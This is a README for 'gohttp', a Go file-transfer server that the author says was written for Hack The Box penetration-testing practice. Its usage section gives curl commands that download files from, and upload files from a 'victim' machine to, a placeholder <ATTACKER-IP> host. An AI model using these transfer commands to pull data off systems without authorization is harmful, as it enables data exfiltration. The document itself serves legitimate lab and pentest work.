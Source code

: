 # gohttp
[![Go Reference](https://pkg.go.dev/badge/github.com/hebelsan/gohttp.svg)](https://pkg.go.dev/github.com/hebelsan/gohttp) ![build](https://github.com/hebelsan/gohttp/actions/workflows/build.yml/badge.svg) [![Go Report Card](https://goreportcard.com/badge/github.com/hebelsan/gohttp)](https://goreportcard.com/report/github.com/hebelsan/gohttp)


While playing on hackthebox.com I was missing the capability to upload files from the victims machines back to my machine with Python SimpleHTTPServer.  
Therefore I wrote **gohttp** which supports both uploading and downloading files just by using the go standard library.

## Installation
### go install
First Make sure that `${GOPATH}/bin` is in your `$PATH`, then:
```bash
go install github.com/hebelsan/gohttp@latest
./gohttp
```
### docker
```bash
docker pull ghcr.io/hebelsan/gohttp:latest
docker run --rm -v $(pwd):/mount -p 80:80 ghcr.io/hebelsan/gohttp
```
### manual
```bash
git clone https://github.com/hebelsan/gohttp
go run main.go
```

## Usage
All the files that should be served must be inside the directory where `gohttp` is executed.

###  Download a file from your attack device:
```bash
curl -O http://<ATTACKER-IP>/<FILENAME>
```

###  Upload a file back to your attack device as multipart
```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

###  Multiple file upload supported, just add more -F 'file=@<FILENAME>'
```bash
curl -F 'file=@<FILE1>' -F 'file=@<FILE2>' http://<ATTACKER-IP>/
```

###  Upload using raw body and filename header
```bash
curl -H "filename: test.txt" --data "this is raw data" http://<ATTACKER-IP>/
```

## Configuration

### Files root path
Per default every file is transferred from and to the current working directory.  
To change this behaviour:
```bash
export FILES_ROOT=/tmp
```

### Authentication
If you are scared that somebody else in your network 
either get's access to your files or uploads random
files without your permission set:
```bash
export AUTH=API-KEY
```
This will generate a new api key on startup and after each request.  
The key is printed to the console and has to be passed 
as `X-API-KEY` header:
```bash
curl -H "X-API-KEY: F94CE8F8-2E28-7806-94A4-8DF3FB722814" -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

### Port
Per default port 80 is used. To change it:
```bash
export PORT=4444
```
